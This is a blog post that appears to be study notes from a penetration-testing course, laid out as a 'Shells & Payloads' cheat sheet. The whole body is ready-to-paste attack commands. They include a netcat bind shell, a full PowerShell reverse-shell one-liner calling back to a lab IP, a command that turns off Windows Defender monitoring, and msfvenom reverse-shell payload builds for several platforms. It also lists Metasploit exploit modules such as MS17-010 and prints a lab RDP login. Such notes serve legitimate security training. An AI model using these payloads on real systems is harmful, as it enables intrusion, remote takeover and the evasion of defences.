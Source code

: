 ```yaml
---
layout:     post
title:      "Shells & Payloads"
subtitle:   "Shells & Payloads"
date:       2024-03-01
author:     "k1r4"
header-img: "img/footprinting.webp"
catalog:    true
tags:
    - shells
    - payloads
---
```


## Shells & Payloads


|**Command**|**Description**|
|--|--|
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |
| `env` | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use. |
| `sudo nc -lvnp <port #>` | Starts a `netcat` listener on a specified port. |
| `nc -nv <ip address of computer with listener started><port being listened on>` | Connects to a netcat listener at the specified IP address and port. |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell `(/bin/bash)` the specified IPaddress and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on. |
| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeNameSystem.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | `Powershell` one-liner used to connect back to a listener that has been started on an attack box. |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | Powershell command using to disable real time monitoring in `Windows Defender`. |

|**Command**|**Description**|
|--|--|
| `use exploit/windows/smb/psexec ` | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec`. |
| `shell` | Command used in a meterpreter shell session to drop into a `system shell`. |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf` | `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`. |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe ` | MSFvenom command used to generate a Windows- based reverse shell stageless payload. |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho` | MSFvenom command used to generate a MacOS- based reverse shell payload. |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | MSFvenom command used to generate a ASP web reverse shell payload. |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp ` | MSFvenom command used to generate a JSP web reverse shell payload. |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war` | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload. |
| `use auxiliary/scanner/smb/smb_ms17_010` | Metasploit exploit module used to check if a host is vulnerable to `ms17_010`. |
| `use exploit/windows/smb/ms17_010_psexec` | Metasploit exploit module used to gain a reverse shell session on a Windows- based system that is vulnerable to ms17_010. |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce` | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting `rConfig 3.9.6`. |

|**Command**|**Description**|
|-|-|
| `python -c 'import pty; pty.spawn("/bin/sh")'` | Python command used to spawn an `interactive shell` on a linux-based system. |
| `/bin/sh -i` | Spawns an interactive shell on a linux-based system. |
| `perl —e 'exec "/bin/sh";'` | Uses `perl` to spawn an interactive shell on a linux-based system. |
| `ruby: exec "/bin/sh"` | Uses `ruby` to spawn an interactive shell on a linux-based system. |
| `Lua: os.execute('/bin/sh')` | Uses `Lua` to spawn an interactive shell on a linux-based system. |


----

